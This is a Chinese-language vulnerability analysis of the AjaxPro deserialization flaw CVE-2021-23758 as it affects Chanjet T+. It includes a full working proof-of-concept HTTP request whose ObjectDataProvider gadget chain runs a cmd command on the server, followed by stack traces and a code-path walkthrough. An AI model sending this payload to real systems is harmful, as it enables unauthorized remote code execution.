概述： CVE-2021-23758 Ajax.NET Professional 中的 RCE 反序列化漏洞分析及说明
免责声明：本文所涉及的信息安全技术知识仅供参考和学习之用，并不构成任何明示或暗示的保证。读者在使用本文提供的信息时，应自行判断其适用性，并承担由此产生的一切风险和责任。本文作者对于读者基于本文内容所做出的任何行为或决定不承担任何责任。在任何情况下，本文作者不对因使用本文内容而导致的任何直接、间接、特殊或后果性损失承担责任。读者在使用本文内容时应当遵守当地法律法规，并保证不违反任何相关法律法规。
漏洞说明
Ajax.NET Professional (AjaxPro)是最先把AJAX技术应用在微软.NET环境下框架之一，具有部署简单、使用方便、运行高效等特点； 该框架能够创建一个代理类且可以使客户端的JS代码实现调用服务端的方法，并能返回各种在.NET里使用的类型；使用该框架和直接使用.NET基本无差别。
该漏洞是由于AjaxPro开源组件.NET Class Handler存在对输入数据限制检查不严格引起的；该AjaxPro框架在JavaScriptDeserializer.DeserializeFromJson函数反序列化过程中，如果通过__type获取的Type对象且可对其Type对象修改，攻击者可利用该漏洞在目标主机上执行任意代码。
详见后文分析。
受影响软件
畅捷通 T+ GetStoreWarehouseByStore 反序列化漏洞
影响版本
T+13.0、T+16.0
漏洞说明
分析内容在堆栈章节
漏洞主要是因为ajaxPro组件存在 CVE-2021-23758，但是这个漏洞有个要求是传输的参数类型必须是 object
通过反编译
App_Code.dll 的 UfIDA.T.CodeBehind._PriorityLevel 中 GetStoreWarehouseByStore 方法满足这个要求

补充
2025 年 11 月 13 日

可以看到 GetStoreWarehouseByStore 由[AjaxMethod]修饰，接收一个 object 类型的参数 storeID
所以路径就是
/tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore
/tplus 是 nginx 的映射路径，/ajaxpro/* 则是 web.config 中定义的 ajaxPro 组件处理路径
POC
执行 POC 会在 tplus 目录下生成 testwhoami.txt 文本
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
X-Ajaxpro-Method: GetStoreWarehouseByStore
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-type: application/x-www-form-urlencoded
Content-Length: 597
{
"storeID":{
"__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
"MethodName":"Start",
"ObjectInstance":{
"__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
"StartInfo": {
"__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
"FileName":"cmd", "Arguments":"/c whoami > testwhoami.txt"
}
}
}
}执行结果：

堆栈
如上所示POC，可以看到在执行 Arguments 时，ping 命令调用到了 System.Diagnostics.Process.Start 函数。
System.dll!System.Diagnostics.Process.Start() (IL=0x0000, Native=0x09963278+0x8)
[本机到托管的转换]
mscorlib.dll!System.Reflection.RuntimeMethodInfo.UnsafeInvokeInternal(object obj, object[] parameters, object[] arguments) (IL=epilog, Native=0x6A109B90+0xCA)
mscorlib.dll!System.Reflection.RuntimeMethodInfo.Invoke(object obj, System.Reflection.BindingFlags invokeAttr, System.Reflection.Binder binder, object[] parameters, System.Globalization.CultureInfo culture) (IL=epilog, Native=0x6A1096E0+0x8E)
mscorlib.dll!System.RuntimeType.InvokeMember(string name, System.Reflection.BindingFlags bindingFlags, System.Reflection.Binder binder, object target, object[] providedArgs, System.Reflection.ParameterModifier[] modifiers, System.Globalization.CultureInfo culture, string[] namedParams) (IL≈0x073D, Native=0x6A0CE270+0xAC8)
PresentationFramework.dll!System.Windows.Data.ObjectDataProvider.InvokeMethodOnInstance(out System.Exception e) (IL≈0x0025, Native=0x09963000+0x82)
PresentationFramework.dll!System.Windows.Data.ObjectDataProvider.QueryWorker(object obj) (IL≈0x008C, Native=0x09962750+0xF5)
PresentationFramework.dll!System.Windows.Data.ObjectDataProvider.BeginQuery() (IL=epilog, Native=0x03A4FE18+0xC8)
PresentationFramework.dll!System.Windows.Data.ObjectDataProvider.ObjectInstance.set(object value) (IL=epilog, Native=0x09962DB8+0x9B)
[本机到托管的转换]
mscorlib.dll!System.Reflection.RuntimeMethodInfo.UnsafeInvokeInternal(object obj, object[] parameters, object[] arguments) (IL≈0x0016, Native=0x6A109B90+0x61)
mscorlib.dll!System.Reflection.RuntimeMethodInfo.Invoke(object obj, System.Reflection.BindingFlags invokeAttr, System.Reflection.Binder binder, object[] parameters, System.Globalization.CultureInfo culture) (IL=epilog, Native=0x6A1096E0+0x8E)
mscorlib.dll!System.Reflection.RuntimePropertyInfo.SetValue(object obj, object value, System.Reflection.BindingFlags invokeAttr, System.Reflection.Binder binder, object[] index, System.Globalization.CultureInfo culture) (IL=epilog, Native=0x6A0EF6E0+0x65)
mscorlib.dll!System.Reflection.RuntimePropertyInfo.SetValue(object obj, object value, object[] index) (IL=epilog, Native=0x6A0EF6C0+0x18)
> AjaxPro.2.dll!AjaxPro.JavaScriptDeserializer.DeserializeCustomObject(AjaxPro.JavaScriptObject o, System.Type type) (IL≈0x015E, Native=0x03A67FF8+0x311)
AjaxPro.2.dll!AjaxPro.JavaScriptDeserializer.Deserialize(AjaxPro.IJavaScriptObject o, System.Type type) (IL≈0x0151, Native=0x00CF5D30+0x2E6)
AjaxPro.2.dll!AjaxPro.XmlHttpRequestProcessor.RetreiveParameters() (IL≈0x0180, Native=0x12CA1F98+0x290)
AjaxPro.2.dll!AjaxPro.AjaxProcHelper.Run() (IL≈0x01F6, Native=0x12CA0040+0x3B8)
AjaxPro.2.dll!AjaxPro.AjaxSyncHttpHandler.ProcessRequest(System.Web.HttpContext context) (IL=0x0010, Native=0x12C7FA58+0x2C)
System.Web.dll!System.Web.HttpApplication.CallHandlerExecutionStep.System.Web.HttpApplication.IExecutionStep.Execute() (IL≈0x018D, Native=0x12A84DC0+0x305)
System.Web.dll!System.Web.HttpApplication.ExecuteStepImpl(System.Web.HttpApplication.IExecutionStep step) (IL=epilog, Native=0x0E35F2A8+0x6E)
System.Web.dll!System.Web.HttpApplication.ExecuteStep(System.Web.HttpApplication.IExecutionStep step, ref bool completedSynchronously) (IL≈0x0015, Native=0x0E35F070+0x4A)
System.Web.dll!System.Web.HttpApplication.ApplicationStepManager.ResumeSteps(System.Exception error) (IL≈0x00F6, Native=0x0E35D228+0x1C7)
System.Web.dll!System.Web.HttpApplication.System.Web.IHttpAsyncHandler.BeginProcessRequest(System.Web.HttpContext context, System.AsyncCallback cb, object extraData) (IL=0x005C, Native=0x0E35CC68+0xDC)
System.Web.dll!System.Web.HttpRuntime.ProcessRequestInternal(System.Web.HttpWorkerRequest wr) (IL≈0x015B, Native=0x06F5CCF0+0x29B)
System.Web.dll!System.Web.HttpRuntime.ProcessRequestNoDemand(System.Web.HttpWorkerRequest wr) (IL=epilog, Native=0x06F5A7C0+0x4F)
System.Web.dll!System.Web.HttpRuntime.ProcessRequest(System.Web.HttpWorkerRequest wr) (IL=epilog, Native=0x06F5A540+0x31)
Chanjet.TP.WebServer.dll!Mono.WebServer.MonoWorkerRequest.ProcessRequest() (IL≈0x000F, Native=0x06F59E20+0x37)
Chanjet.TP.WebServer.dll!Mono.WebServer.BaseApplicationHost.ProcessRequest(Mono.WebServer.MonoWorkerRequest mwr) (IL≈0x002A, Native=0x06F59C38+0x5E)
Chanjet.TP.WebServer.FastCgi.exe!Mono.WebServer.FastCgi.ApplicationHost.ProcessRequest(Mono.WebServer.FastCgi.Responder responder) (IL=0x0055, Native=0x06F53E50+0x10D)
mscorlib.dll!System.Runtime.Remoting.Messaging.StackBuilderSink.SyncProcessMessage(System.Runtime.Remoting.Messaging.IMessage msg) (IL=???, Native=0x6A0D42B0+0x1F4)
mscorlib.dll!System.Runtime.Remoting.Messaging.ServerObjectTerminatorSink.SyncProcessMessage(System.Runtime.Remoting.Messaging.IMessage reqMsg) (IL≈0x0048, Native=0x6A0D4238+0x67)
mscorlib.dll!System.Runtime.Remoting.Messaging.ServerContextTerminatorSink.SyncProcessMessage(System.Runtime.Remoting.Messaging.IMessage reqMsg) (IL≈0x004F, Native=0x6A0D413C+0x8B)
mscorlib.dll!System.Runtime.Remoting.Channels.CrossContextChannel.SyncProcessMessageCallback(object[] args) (IL≈0x0059, Native=0x6A0D3E94+0x98)
mscorlib.dll!System.Threading.Thread.CompleteCrossContextCallback(System.Threading.InternalCrossContextDelegate ftnToCall, object[] args) (IL=epilog, Native=0x6A1024F8+0xD)
mscorlib.dll!System.Runtime.Remoting.Channels.CrossContextChannel.SyncProcessMessage(System.Runtime.Remoting.Messaging.IMessage reqMsg) (IL≈0x001F, Native=0x6A0D3D40+0xA1)
mscorlib.dll!System.Runtime.Remoting.Channels.ChannelServices.SyncDispatchMessage(System.Runtime.Remoting.Messaging.IMessage msg) (IL≈0x0042, Native=0x6A0EAF38+0x93)
mscorlib.dll!System.Runtime.Remoting.Channels.CrossAppDomainSink.DoDispatch(byte[] reqStmBuff, System.Runtime.Remoting.Messaging.SmuggledMethodCallMessage smuggledMcm, out System.Runtime.Remoting.Messaging.SmuggledMethodReturnMessage smuggledMrm) (IL≈0x0047, Native=0x6A0D2F50+0xF4)
mscorlib.dll!System.Runtime.Remoting.Channels.CrossAppDomainSink.DoTransitionDispatchCallback(object[] args) (IL≈0x0016, Native=0x6A0D77EC+0x84)
mscorlib.dll!System.Threading.Thread.CompleteCrossContextCallback(System.Threading.InternalCrossContextDelegate ftnToCall, object[] args) (IL=epilog, Native=0x6A1024F8+0xD)
[程序域转换]
mscorlib.dll!System.Runtime.Remoting.Channels.CrossAppDomainSink.DoTransitionDispatch(byte[] reqStmBuff, System.Runtime.Remoting.Messaging.SmuggledMethodCallMessage smuggledMcm, out System.Runtime.Remoting.Messaging.SmuggledMethodReturnMessage smuggledMrm) (IL≈0x0002, Native=0x6A0D2E5C+0x7A)
mscorlib.dll!System.Runtime.Remoting.Channels.CrossAppDomainSink.SyncProcessMessage(System.Runtime.Remoting.Messaging.IMessage reqMsg) (IL≈0x0053, Native=0x6A0D24AC+0x9A)
mscorlib.dll!System.Runtime.Remoting.Proxies.RemotingProxy.CallProcessMessage(System.Runtime.Remoting.Messaging.IMessageSink ms, System.Runtime.Remoting.Messaging.IMessage reqMsg, System.Runtime.Remoting.Contexts.ArrayWithSize proxySinks, System.Threading.Thread currentThread, System.Runtime.Remoting.Contexts.Context currentContext, bool bSkippingContextChain) (IL≈0x003A, Native=0x6A0D22EC+0x51)
mscorlib.dll!System.Runtime.Remoting.Proxies.RemotingProxy.InternalInvoke(System.Runtime.Remoting.Messaging.IMethodCallMessage reqMcmMsg, bool useDispatchMessage, int callType) (IL=???, Native=0x6A0D2070+0x1DE)
mscorlib.dll!System.Runtime.Remoting.Proxies.RemotingProxy.Invoke(System.Runtime.Remoting.Messaging.IMessage reqMsg) (IL=epilog, Native=0x6A0D2000+0x69)
mscorlib.dll!System.Runtime.Remoting.Proxies.RealProxy.PrivateInvoke(ref System.Runtime.Remoting.Proxies.MessageData msgData, int type) (IL≈0x0155, Native=0x6A0D1DA0+0xF4)
Chanjet.TP.WebServer.FastCGI.exe!Mono.WebServer.FastCgi.Responder.Process() (IL=0x0068, Native=0x039C3988+0x162)
Chanjet.TP.WebServer.FastCGI.exe!Mono.FastCgi.ResponderRequest.Worker(object state) (IL≈0x0002, Native=0x039C37C8+0x4B)
mscorlib.dll!System.Threading.QueueUserWorkItemCallback.WaitCallback_Context(object state) (IL=epilog, Native=0x6A0F0960+0x44)
mscorlib.dll!System.Threading.ExecutionContext.RunInternal(System.Threading.ExecutionContext executionContext, System.Threading.ContextCallback callback, object state, bool preserveSyncCtx) (IL≈0x0079, Native=0x6A047D70+0xC4)
mscorlib.dll!System.Threading.ExecutionContext.Run(System.Threading.ExecutionContext executionContext, System.Threading.ContextCallback callback, object state, bool preserveSyncCtx) (IL=epilog, Native=0x6A047D50+0x17)
mscorlib.dll!System.Threading.QueueUserWorkItemCallback.System.Threading.IThreadPoolWorkItem.ExecuteWorkItem() (IL=epilog, Native=0x6A0F09B0+0x45)
mscorlib.dll!System.Threading.ThreadPoolWorkQueue.Dispatch() (IL=0x00A4, Native=0x6A0E1920+0x19D)
mscorlib.dll!System.Threading._ThreadPoolWaitCallback.PerformWaitCallback() (IL=epilog, Native=0x6A0E1910+0xB)
[本机到托管的转换]
如上所示一大堆，只需要关注其中的几个就可以：
AjaxPro.2.dll!AjaxPro.JavaScriptDeserializer.DeserializeCustomObject(AjaxPro.JavaScriptObject o, System.Type type)
AjaxPro.2.dll!AjaxPro.JavaScriptDeserializer.Deserialize(AjaxPro.IJavaScriptObject o, System.Type type)
AjaxPro.2.dll!AjaxPro.XmlHttpRequestProcessor.RetreiveParameters()
AjaxPro.2.dll!AjaxPro.AjaxProcHelper.Run()
AjaxPro.2.dll!AjaxPro.AjaxSyncHttpHandler.ProcessRequest(System.Web.HttpContext context)堆栈&漏
漏洞复现
从上面分析可知，如果要控制反序列化操作的 Type，那么必须保证 Ajax 处理函数的输出参数类型是可控的，而 GetStoreWarehouseByStore 函数的输入参数为 Objectt 类型，符合当前漏洞要求：

修改请求数据包，加入__type参数，并加入ObjectDataProvider利用链，发送数据包后成功触发RCE。

发送 Ajax 请求后，首先会进入继承于 IHttpHandler 接口的类 AjaxSyncHttpHandler，调用函数 ProcessRequest 进行处理：

接着进入XmlHttpRequestProcessor.RetreiveParameters函数：

其中第23行通过method.GetParameters加载自定义的全部Ajax Method，即所有采用[AjaxPro.AjaxMethod]进行装饰的函数，比如本次漏洞的 GetStoreWarehouseByStore 方法：
上述 parameters 的类型为:
{System.Reflection.RuntimeParameterInfo} System.Reflection.ParameterInfo {System.Reflection.RuntimeParameterInfo}

自定义的 方法：
((System.Reflection.RuntimeMethodInfo)parameters[0].MemberImpl).m_name = “GetStoreWarehouseByStore”

接着往下走，第120行通过JavaScriptDeserializer.DeserializeFromJson反序列化得到一个JavaScriptObject对象，这里指定了Type类型，继续往下看：

进入 JavaScriptDeserizlizer.Deserializer ：

这里判断是否存在__type参数，如果存在且通过__type获取的Type对象继承于处理函数输入参数数据类型（type.IsAssignableFrom(t)），可以修改反序列化的type对象。继续往下走，最终调用DeserializeCustomObject函数完成处理，处理过程与.NET JavaScriptSerializer等其他反序列化方式非常类似。

在新版本的 AjaxPro.Net 中，对自定义反序列化类型的操作加入了配置限制，只有预先配置好的Type类型才能进行修改，导致恶意类无法被插入。

堆栈记录
Current frame: (MethodDesc 08d54d70 +0 System.Diagnostics.Process.Start())
ChildEBP RetAddr Caller, Callee
12eecd98 74302546 clr!CallDescrWorkerInternal+0x34
12eecda4 7430e4c9 clr!CallDescrWorkerWithHandler+0x6b, calling clr!CallDescrWorkerInternal
12eecdb8 7430e482 clr!CallDescrWorkerWithHandler+0x20, calling clr!_alloca_probe
12eecdf8 7431171f clr!CallDescrWorkerReflectionWrapper+0x55, calling clr!CallDescrWorkerWithHandler
12eece38 7431161f clr!RuntimeMethodHandle::InvokeMethod+0x747, calling clr!CallDescrWorkerReflectionWrapper
12eece3c 74321428 clr!ArgIteratorForMethodInvoke::ArgIteratorForMethodInvoke+0x52, calling clr!MethodDesc::IsInterface
12eece54 743113bb clr!RuntimeMethodHandle::InvokeMethod+0x224, calling clr!_alloca_probe_16
12eeceb4 743112ce clr!RuntimeMethodHandle::InvokeMethod+0x6e, calling clr!LazyMachStateCaptureState
12eecefc 7431efb5 clr!SigPointer::GetTypeHandleThrowing+0xb69, calling clr!__security_check_cookie
12eecf28 7430fe88 clr!MetaSig::Init+0x16c, calling clr!CorSigUncompressData
12eecf30 7430febe clr!MetaSig::Init+0x19e, calling clr!SigParser::SkipExactlyOne
12eecf74 743201bb clr!InvokeUtil::IsDangerousMethod+0x10c, calling clr!MethodTable::ParentEquals
12eecfa0 7432134c clr!ReflectionInvocation::GetSpecialSecurityFlags+0x6d, calling clr!_EH_epilog3
